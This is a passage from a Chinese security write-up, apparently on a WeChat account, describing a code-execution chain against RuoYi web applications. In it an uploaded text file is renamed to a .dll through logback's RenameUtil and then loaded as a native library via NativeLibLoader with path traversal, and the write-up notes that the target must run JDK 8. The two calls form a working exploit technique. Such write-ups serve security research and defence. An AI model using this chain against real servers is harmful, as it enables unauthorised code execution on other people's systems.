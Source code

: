 ![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvVRC6Ny8TlRPaIZdicfDU9Miba0ooXxr8sf7YV8fmbicicGMusZWjNtRgwA/640?wx_fmt=png&from=appmsg "")  
  
通过使用RenameUtil类方法去对文件名进行修改  
```
ch.qos.logback.core.rolling.helper.RenameUtil.renameByCopying
("D:\ruoyi\uploadPath\upload\2025\05\19\com.ruoyi.quartz.task_20250519013441A002.txt",
"D:\ruoyi\uploadPath\upload\2025\05\19\com.ruoyi.quartz.task_20250519013441A002.dll");
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyv0g8HjCxuicMhnhLXERXicDQ6k7hh0YSltX0niaI17lHSofNWWcibL5fT3A/640?wx_fmt=png&from=appmsg "")  
```
com.sun.glass.utils.NativeLibLoader.loadLibrary('../../../com.ruoyi.quartz.task_20250519013441A002')
```  
  
执行加载JNI  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/CJ6TqbDbFpyIHcTPBOYuTOPJCibAxQZyvCyHz5wWXbadicA4nD5rpb6yA4SleEU9Dicrsm6ecNrvQudibkBeLkdLxA/640?wx_fmt=png&from=appmsg "")  
  
限制  
  
  
  
1、知道对方上传文件的路径和当前网站的路径  
  
2、对方JDK版本不能过高不然会不存在          com.sun.glass.utils.NativeLibLoader类（但是也可以寻找新的Loader类）com.sun.glass.utils.NativeLibLoader存在于JDK 8  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHiaOUiaO5LKp3IFbIDtGYglHc8nfZnO0Bq1aflyd9HhHYMHOLrFmKPqOkNQkyy3has0joYG8UlWBUaQ/640 "")  
  
END  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHiaOUiaO5LKp3IFbIDtGYglHc8nfZnO0Bq1aflyd9HhHYMHOLrFmKPqOkNQkyy3has0joYG8UlWBUaQ/640 "")  
  
  
注：鼎新安全有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。  
  
